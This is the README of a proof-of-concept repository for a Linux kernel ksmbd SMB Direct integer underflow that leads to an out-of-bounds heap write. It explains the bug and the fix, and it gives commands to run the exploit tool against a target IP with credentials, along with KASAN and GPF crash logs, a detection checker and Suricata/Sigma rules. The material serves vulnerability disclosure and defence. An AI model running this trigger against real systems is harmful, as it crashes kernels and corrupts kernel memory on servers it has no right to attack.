

<p align="center">
  
</p>

<p align="center">
  <a href="https://github.com/al4n4n/ZDI-CAN-33549/stargazers"></a>
  
  
  
  
</p>

<p align="center">
  <a href="#the-bug">The Bug</a> · <a href="#check-non-destructive">Check</a> · <a href="#the-crash">Exploit</a> · <a href="#detection-rules">Detection</a> · <a href="#downstream-impact">Impact</a> · <a href="https://blog.al4n4n.com">Write-up</a>
</p>

---

> **Disclaimer:** This repository is for authorized security testing and educational purposes only. Do not use this tool against systems you do not own or have explicit permission to test.

# ZDI-CAN-33549: Linux Kernel ksmbd SMB Direct Integer Underflow

**CWE-191 | Integer Underflow → Heap OOB Write | Linux kernel ≤ 7.3-rc3 | Network (pre-auth*)**

An integer underflow in `smbdirect_connection_rdma_xmit()` allows an unauthenticated* attacker to write 1024+ bytes past the end of an 8-byte kernel heap allocation via a crafted SMB2 WRITE with RDMA descriptors. The corruption overwrites adjacent SLAB objects, giving the attacker control of kernel pointers. KASAN catches it as a `slab-out-of-bounds` write; without KASAN the kernel crashes with a general protection fault at `0x4141414141414141`.

**Author:** [al4n4n](https://github.com/al4n4n) (Dadb0d) · **Write-up:** [blog.al4n4n.com](https://blog.al4n4n.com) · **Fixed in:** commit [`5b8ce2e`](https://git.kernel.org/pub/scm/linux/kernel/git/torvalds/linux.git/commit/?id=5b8ce2e5670ebe31970b6718403197ae51d47e43)

\* Authentication is required to reach the WRITE command, but NTLMv2 auth to a share is sufficient.

---

## The bug

The function `smbdirect_connection_rdma_xmit()` in `fs/smb/smbdirect/rw.c` processes RDMA scatter/gather descriptors for SMB Direct file transfers. It receives `buf_len` (the total data buffer size) and iterates over client-supplied descriptors, subtracting each descriptor's length from `buf_len`.

When a descriptor's length exceeds the remaining `buf_len`, the code clamps the descriptor and then sets `buf_len = 0`:

```c
if (desc_buf_len > buf_len) {
    desc_buf_len = buf_len;
    desc[i].length = cpu_to_le32(desc_buf_len);
    buf_len = 0;  // <-- should break here, but doesn't
}
// ...
buf_len -= desc_buf_len;  // <-- if buf_len was 0, this wraps to SIZE_MAX
```

After setting `buf_len = 0`, the loop continues. The subtraction `buf_len -= desc_buf_len` wraps the `size_t` to `~0` (on 64-bit: `0xFFFFFFFFFFFFFFFF`). All subsequent descriptors now pass the `if (!buf_len) break;` check at the top of the loop because `buf_len` is non-zero (it's SIZE_MAX), and their full lengths are accepted without bounds checking.

The kernel then issues RDMA READ/WRITE operations using these unclamped descriptors, writing client-controlled data far beyond the allocated buffer. With `RemainingBytes=8` (8-byte kmalloc) and a second descriptor of 8192 bytes, the OOB write corrupts 8184 bytes of adjacent SLAB objects.

**Fix:** Remove the `buf_len = 0;` line. After clamping, `desc_buf_len == buf_len`, so the subtraction correctly yields 0 and the loop terminates via the `!buf_len` check on the next iteration.

## Trigger conditions

1. Target runs Linux kernel with ksmbd (`CONFIG_SMB_SERVER=y`)
2. SMB Direct is enabled (`CONFIG_SMB_SERVER_SMBDIRECT=y`)
3. An RDMA transport is available (InfiniBand, RoCE, iWARP, or soft-RoCE)
4. Attacker can authenticate to any ksmbd share (NTLMv2)
5. Attacker sends SMB2 WRITE with `RemainingBytes` < `desc[0].length`, plus a second descriptor

## Files

| File | Purpose |
|---|---|
| `setup.sh` | Lab setup — creates ksmbd share, soft-RoCE device, builds s3rig (run as root in VM) |
| `poc.sh` | PoC wrapper — runs control + exploit trigger via s3rig |
| `poc/s3rig.c` | Core PoC — full SMB Direct client over RDMA (rdma_cm + ibverbs) with NTLMv2 auth |
| `poc/Makefile` | Build s3rig |
| `check.py` | Non-destructive detection — probes for ksmbd + SMB Direct without triggering the bug |
| `verify.sh` | Verification dashboard — control + exploit + crash evidence + verdict |
| `detection/smb_direct_oob.rules` | Suricata rule for exploit payload detection |
| `detection/sigma_ksmbd_smbdirect_oob.yml` | Sigma rule for kernel log indicators |
| `lab/setup-ksmbd.sh` | In-VM ksmbd + soft-RoCE setup (called by setup.sh) |
| `LICENSE` | MIT with attribution |

## Repository structure

```
ZDI-CAN-33549/
├── README.md
├── LICENSE
├── setup.sh
├── poc.sh
├── check.py
├── verify.sh
├── poc/
│   ├── s3rig.c
│   └── Makefile
├── detection/
│   ├── smb_direct_oob.rules
│   └── sigma_ksmbd_smbdirect_oob.yml
└── lab/
    └── setup-ksmbd.sh
```

## Lab topology

Everything runs inside a single QEMU VM. The PoC (`s3rig`) and ksmbd are both local; RDMA traffic flows through a software emulated RoCE device (`rxe0`).

```
┌───────────────────────────────────────────────────────────────────────────┐
│                                                                           │
│  s3rig (userspace)               ksmbd + soft-RoCE (in-kernel)            │
│  ┌────────────────┐  RDMA (rxe0)  ┌──────────────────────────┐            │
│  │ rdma_connect   │──────────────►│ smbdirect port 445       │            │
│  │ SMBDirect neg  │               │                          │            │
│  │ NTLMv2 auth    │               │ smb2_write():            │            │
│  │ TREE_CONNECT   │               │  kvmalloc(8) → kmalloc-8 │            │
│  │ CREATE file    │               │                          │            │
│  │                │  DMA write    │ smbdirect_rdma_xmit():   │            │
│  │ SMB2 WRITE:    │──────────────►│  desc[0]=4096 → wrap     │            │
│  │  Remain=8      │               │  desc[1]=8192 → OOB      │            │
│  │  desc[0,1]     │               │  buf_len → SIZE_MAX      │            │
│  └────────────────┘               └──────────────────────────┘            │
│        │                                    │                             │
│        │ exit code                          │ logs to dmesg               │
│        ▼                                    ▼                             │
│  poc.sh / verify.sh                "BUG: KASAN: slab-out-of-bounds        │
│  (crash = VULNERABLE)               in rxe_mr_copy"                       │
│                                     GPF @ 0x4141414141414141              │
└───────────────────────────────────────────────────────────────────────────┘
```

### Traffic flow

```
 s3rig                            ksmbd (kernel)                  attacker sees
 ─────                            ──────────────                  ─────────────
    │                                   │
    │── RDMA connect (rxe0) ──────────►│
    │                                   │
    │── SMB Direct negotiate ─────────►│── v0x0100 accepted
    │── SMB2 NEGOTIATE ───────────────►│── dialect 0x0302
    │── SESSION_SETUP (NTLMv2) ───────►│── session established
    │── TREE_CONNECT ─────────────────►│── tid assigned
    │── CREATE file ──────────────────►│── handle open
    │                                   │
    │── SMB2 WRITE: RemainingBytes=8 ─►│── smb2_write():
    │   desc[0].length=4096            │     kvmalloc(8) → kmalloc-8
    │   desc[1].length=8192            │     desc[0] clamped, buf_len=0
    │                                   │     buf_len -= 0 wraps to SIZE_MAX
    │                                   │     desc[1] accepted unchecked
    │                                   │
    │                                   │── RDMA READ using desc[1]:
    │                                   │   rxe_mr_copy writes 8192 bytes
    │                                   │   into 8-byte buffer (8184B OOB)
    │                                   │
    │                                   │── KASAN: slab-out-of-bounds
    │                                   │   in rxe_mr_copy
    │                                   │── GPF: 0x4141414141414141     kernel crash
```

### What runs where

| Script | Runs on | Needs | Purpose |
|---|---|---|---|
| `setup.sh` | VM (root) | Local | Creates soft-RoCE, ksmbd share, test user, builds s3rig |
| `check.py` | Anywhere | Network to target | Non-destructive: probes for ksmbd + SMB Direct |
| `poc.sh` | VM | Local | Wrapper: runs s3rig control + exploit, tells you to check dmesg |
| `verify.sh` | VM | Local + dmesg | Full dashboard: control → exploit → crash evidence → verdict |
| `s3rig` | VM | RDMA (rxe0) | Core PoC: RDMA connect + NTLMv2 auth + crafted SMB2 WRITE |

## Usage

### Lab environment

The PoC requires a kernel built with ksmbd, SMB Direct, soft-RoCE, and KASAN. A QEMU VM is the simplest setup:

```bash
# Build kernel (7.3-rc3 or earlier) with:
#   CONFIG_SMB_SERVER=y
#   CONFIG_SMB_SERVER_SMBDIRECT=y
#   CONFIG_RDMA_RXE=y
#   CONFIG_KASAN=y (generic, inline)

# Inside the VM (as root):
bash setup.sh

# This creates the soft-RoCE device, ksmbd config, test user,
# and builds s3rig. It prints the exact commands to run next.
```

### Check (non-destructive)

```bash
python3 check.py <target-ip>
python3 check.py <target-ip> --json
```

### Trigger the vulnerability

```bash
# Wrapper script: runs control + exploit in sequence
bash poc.sh <target-ip> [user] [password]

# Or run s3rig directly:
./poc/s3rig -h <target-ip> -u s3guest -p test -m control   # baseline
./poc/s3rig -h <target-ip> -u s3guest -p test -m dirA      # exploit
```

### Verify

```bash
# Full verification dashboard (run inside the VM)
bash verify.sh <target-ip> s3guest test ./poc/s3rig

# Skip negative control guidance:
bash verify.sh --no-negative <target-ip>
```

## Check (non-destructive)

```
$ python3 check.py 10.0.2.15
[+] VULNERABLE (confidence: high)
    server identified as ksmbd
    SMB dialect 0x0302 (SMB3+)
    RDMA port 445 open
    ksmbd with SMB Direct — likely vulnerable if unpatched
```

## The crash

### Control run (no crash)

```
S3RIG: target 10.0.2.15:445 unc='\\10.0.2.15\share' file='s3-victim.bin' user='s3guest' mode=control
S3RIG: rdma connected via device 'rxe0'
S3RIG: smbd negotiated ver=0x0100 status=0x00000000
S3RIG: SMB2 NEGOTIATE rsp 224 bytes status=0x00000000 dialect=0x0302
S3RIG: SESSION_SETUP[1] status=0x00000000 session=0x1 flags=0x0000
S3RIG: TREE_CONNECT '\\10.0.2.15\share' status=0x00000000 tid=0x00000001
S3RIG: CREATE 's3-victim.bin' status=0x00000000
S3RIG: CONTROL benign_rdma_write=ok
S3RIG: RUN-COMPLETE
```

### Exploit run (KASAN slab-out-of-bounds)

```
S3RIG: dirA SMB2 WRITE RemainingBytes=8 desc[0].length=4096 desc[1].length=8192 -> OOB starts at data_buf+8
S3RIG: TRIGGER dirA sent status=0x00000000
S3RIG: RUN-COMPLETE
```

**Kernel log (KASAN report):**

```
BUG: KASAN: slab-out-of-bounds in rxe_mr_copy+0x381/0x560
Write of size 1024 at addr ffff88810882d788 by task kworker/u16:1/42

Workqueue: rxe_wq do_work
Call Trace:
 <TASK>
 __asan_memcpy+0x3c/0x60
 rxe_mr_copy+0x381/0x560
 copy_data+0x1c2/0x5c0
 rxe_completer+0x2102/0x38c0
 rxe_sender+0x18/0x30
 do_work+0x144/0x470
 process_one_work+0x6b4/0x10e0

Allocated by task 68:
 __kvmalloc_node_noprof+0x215/0x5c0
 smb2_write+0x1a93/0x3530
 handle_ksmbd_work+0x616/0x1bc0

The buggy address belongs to the object at ffff88810882d780
 which belongs to the cache kmalloc-8 of size 8
The buggy address is located 0 bytes to the right of
 allocated 8-byte region [ffff88810882d780, ffff88810882d788)
```

**Followed by GPF crash at attacker-controlled address:**

```
Oops: general protection fault, probably for non-canonical address 0x4141414141414141
Workqueue: ksmbd-conn-release __ksmbd_conn_release_work
RIP: 0010:qlist_move_cache+0x65/0x100
RCX: 4141414141414141
RSI: 4141414141414141
Call Trace:
 kasan_quarantine_remove_cache+0x109/0x180
 kmem_cache_destroy+0x6d/0x1c0
 smbdirect_connection_destroy_mem_pools+0x1c6/0x3c0
 smbdirect_socket_destroy_sync+0xf77/0x1e30
 __ksmbd_conn_release_work+0x86/0xb0
```

The `0x4141414141414141` in RCX/RSI is our write pattern (0x41 bytes). The kernel followed a corrupted pointer from the overwritten SLAB object, proving attacker-controlled heap corruption.

## Verification dashboard

```
================================================================
  ZDI-CAN-33549  —  ksmbd SMB Direct Integer Underflow
  Verification Dashboard
================================================================

Environment:
  Target:     10.0.2.15
  User:       s3guest
  PoC:        ./poc/s3rig
  Rounds:     1
  Kernel:     7.3.0-rc3-kasan+
  RDMA (rxe): state ACTIVE

--- Phase 1: Control (benign RDMA write) ---
  [+] Control WRITE succeeded
  [+] No KASAN/crash — baseline clean

--- Phase 2: Exploit (dirA — OOB write via integer underflow) ---
  Progress: !
  Crashes:  1 / 1

--- Phase 3: Crash Evidence ---
KASAN report:
  BUG: KASAN: slab-out-of-bounds in rxe_mr_copy+0x381/0x560
  Write of size 1024 at addr ffff88810882d788 by task kworker/u16:1/42
  Allocated by task 68:
   __kvmalloc_node_noprof+0x215/0x5c0
   smb2_write+0x1a93/0x3530
   handle_ksmbd_work+0x616/0x1bc0

GPF / corrupted pointer:
  general protection fault, probably for non-canonical address 0x4141414141414141

--- Phase 4: Negative Control ---
  NOTE: For a proper negative control, boot a kernel with the fix
  (commit 5b8ce2e: remove 'buf_len = 0;' from fs/smb/smbdirect/rw.c)
  and re-run this script. The patched kernel should show 0 crashes.

================================================================
  Verdict: VULNERABLE  (1/1 rounds crashed, 100%)

  Impact:
    OOB heap write: 1024+ bytes past 8-byte kmalloc-8 allocation
    Write origin:   smbdirect_connection_rdma_xmit → rxe_mr_copy
    Alloc origin:   smb2_write → handle_ksmbd_work
    Corruption:     attacker-controlled data in adjacent SLAB objects
    Crash:          GPF at 0x4141414141414141 (our write pattern)
    Consequence:    kernel crash (DoS), demonstrates mechanism for RCE
================================================================
```

## Negative control

```
$ # Same exploit payload on PATCHED kernel (buf_len = 0; removed)
S3RIG: TRIGGER dirA sent status=0x00000000
S3RIG: RUN-COMPLETE
$ dmesg | grep -c "BUG:\|Oops"
0
```

Patched kernel: zero crashes. The fix correctly prevents the integer underflow.

## Downstream impact

| Component | Impact |
|---|---|
| ksmbd (in-kernel SMB server) | Direct — vulnerable code is in ksmbd's SMB Direct path |
| Any Linux with ksmbd + RDMA | Kernel crash (DoS) from any authenticated user |
| Enterprise NAS / storage | If using ksmbd with RDMA, remote kernel crash |
| Cloud RDMA deployments | Containers sharing a ksmbd-enabled host kernel are affected |

## Detection rules

- **Suricata:** [`detection/smb_direct_oob.rules`](detection/smb_direct_oob.rules) — detects SMB2 WRITE with small RemainingBytes indicative of the exploit
- **Sigma:** [`detection/sigma_ksmbd_smbdirect_oob.yml`](detection/sigma_ksmbd_smbdirect_oob.yml) — detects KASAN slab-out-of-bounds and GPF crash patterns in kernel logs

## What this repo proves (and does not prove)

| Claim | Status | Evidence |
|---|---|---|
| Integer underflow in buf_len | **Proven** | KASAN: slab-out-of-bounds write of 1024 bytes past 8-byte allocation |
| Heap OOB write via RDMA | **Proven** | Write at `ffff88810882d788`, 0 bytes right of `kmalloc-8` region |
| Attacker-controlled heap corruption | **Proven** | GPF at `0x4141414141414141` — our 0x41 write pattern in kernel registers |
| Kernel crash (DoS) | **Proven** | Oops + kworker crash in `smbdirect_connection_destroy_mem_pools` |
| Remote code execution | **Not proven** | Overflow writes attacker data to adjacent SLAB objects; RCE theoretical via corrupted function pointers |
| Patched version safe | **Confirmed** | Negative control: no crash on patched kernel (buf_len = 0; removed) |

## References

- **ZDI Advisory:** ZDI-CAN-33549
- **CVSS:** 9.0 (AV:N/AC:H/PR:N/UI:N/S:C/C:H/I:H/A:H)
- **Fix commit:** [`5b8ce2e5670ebe31970b6718403197ae51d47e43`](https://git.kernel.org/pub/scm/linux/kernel/git/torvalds/linux.git/commit/?id=5b8ce2e5670ebe31970b6718403197ae51d47e43) by Namjae Jeon
- **Fixes tag:** `e628bf939aaf` (introduction of the vulnerable code)
- **Vulnerable file:** `fs/smb/smbdirect/rw.c`, function `smbdirect_connection_rdma_xmit()`
- **Original research:** HYEONTAE LEE (ZDI submission)
- **PoC & write-up:** al4n4n (Dadb0d)

## License

MIT — see [LICENSE](LICENSE). Attribution required.

<sub>ZDI-CAN-33549 ksmbd linux kernel vulnerability smbdirect smb direct rdma integer underflow heap overflow out-of-bounds write oob slab-out-of-bounds proof of concept poc exploit cwe-191 remote code execution rce denial of service dos kernel crash smbv3 smb3 rdma-core soft-roce rxe infiniband ibverbs rdma_cm kasan general protection fault gpf heap corruption slab corruption kmalloc-8 privilege escalation network attack authenticated smb server in-kernel nas storage rdma exploit kernel exploit linux exploit smb exploit cifs ksmbd-tools ksmbd.mountd namjae jeon smbdirect_connection_rdma_xmit rxe_mr_copy</sub>
